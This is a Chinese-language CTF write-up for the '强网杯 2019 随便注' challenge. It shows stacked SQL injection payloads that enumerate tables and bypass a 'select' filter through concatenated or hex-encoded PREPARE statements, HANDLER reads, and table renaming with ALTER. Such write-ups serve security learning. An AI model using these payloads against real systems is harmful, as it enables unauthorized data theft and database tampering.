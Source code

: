 # [强网杯 2019]随便注


# [强网杯 2019]随便注

输入`1'`，页面报错

![ [强网杯 2019]随便注-1](https://pic.imgdb.cn/item/6536352ec458853aef2f3ff0.jpg)

输入`1'#`，页面恢复正常，说明存在sql注入点

![ [强网杯 2019]随便注-2](https://pic.imgdb.cn/item/65363575c458853aef2fe4b1.jpg)

输入`1'order by 2#`页面正常，输入`1'order by 3#`页面报错，说明有两个字段

![ [强网杯 2019]随便注-3](https://pic.imgdb.cn/item/6536367dc458853aef322f58.jpg)

输入`-1'union select 1,2#`，发现被过滤了

![ [强网杯 2019]随便注-4](https://pic.imgdb.cn/item/653637d1c458853aef35c5b4.jpg)

提示会过滤`select` `uodate` `delete` `drop` `insert` `where` `. ` (包括大小写)，因此**放弃联合注入和盲注**

输入`1';show databases;#`，成功回显了所有数据库名，说明**存在堆叠注入**

![ [强网杯 2019]随便注-5](https://pic.imgdb.cn/item/65363bacc458853aef3e59e5.jpg)

输入`1';show tables;#`，回显了两个表 `"1919810931114514"` 、 `"words"`

![ [强网杯 2019]随便注-6](https://pic.imgdb.cn/item/65363c0bc458853aef3f2421.jpg)

输入:

```sql
1';show columns from `1919810931114514`;#
```

或者:

```sql
1';desc `1919810931114514`;#
```

看到 `1919810931114514` 表中只有 `flag` 这一个字段

![ [强网杯 2019]随便注-7](https://pic.imgdb.cn/item/65363d4fc458853aef41fd58.jpg)

​	

​	

**如何获取到 "1919810931114514" 表里 "flag" 字段的值？**

**方法一：**

通过预编译来拼接 select

```sql
1';PREPARE inject from concat('se','lect', ' * from `1919810931114514` ');EXECUTE inject;#
```

- PREPARE inject from concat('se','lect', ' * from 1919810931114514 ')：创建一个名为inject的预处理语句，内容是拼接的字符串 'se' + 'lect' + ' * from 1919810931114514'。
- EXECUTE inject：执行inject预处理语句

或者这样：

```sql
1';SeT@a=concat('se','lect', ' * from `1919810931114514` ');PREPARE inject from @a;EXECUTE inject;#
```

这两条payload是一个意思

​	

**方法二：**

把查询语句 "select * from \`1919810931114514`" 转成16进制编码再配合预编译

```sql
1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;PREPARE inject from @a;EXECUTE inject;#
```

或：

```sql
1';PREPARE inject from 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;EXECUTE inject;#
```

- EXECUTE执行预处理语句时会解码

​	

**方法三：**

直接访问表的底层数据而不经过SQL查询

```sql
1';handler `1919810931114514` open as `inject`; handler `inject` read next;
```

- `handler 1919810931114514 open as a;` ：打开一个句柄（handler），将其命名为"inject"，并指向名为"1919810931114514"的表。可以通过句柄"inject"来直接访问表"1919810931114514"的数据。
- `handler a read next;` ：通过句柄"inject"执行了一个读取操作。从表"1919810931114514"中读取下一行数据。句柄可以绕过SQL查询，直接对表的底层数据进行读取操作。

​	

**方法四：**

让正常的查询变成往"1919810931114514"表里查询

正常的查询是从"words"表里查询的，通过`1';show columns from words;#`可以看到"words"表里有"id"字段和"data"字段

![ [强网杯 2019]随便注-8](https://pic.imgdb.cn/item/65365422c458853aef787233.jpg)

不难猜到后端的sql查询语句大致是`select * from words where id=$_GET['inject']`，我们只要把"words"表的名字改成其他的、把"1919810931114514"表的名字改成"words"、再往里添一个"id"字段，这样正常的查询就变成往以前的"1919810931114514"表里查询

```sql
1';rename table words to xxx; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key;#
```

- `rename table words to xxx;` ：将"words"表改名为"xxx"
- `rename table 1919810931114514 to words;` ：将"1919810931114514"表改名为"words"
- `alter table words add id int unsigned not Null auto_increment primary key;` ：在"words"表中添加"id"字段，数据类型为"int"、无符号整数(只能存储正数值)、非空(not Null)、自动递增(AUTO_INCREMENT)、将"id"字段设置为主键(PRIMARY KEY)，这将确保id列的唯一性，并加速表的查找操作。

改完后正常查询一个1就能看到flag

​	

​	

​	

**参考文章**

[[强网杯 2019]随便注 1【SQL注入】四种解法](https://zhuanlan.zhihu.com/p/545713669)
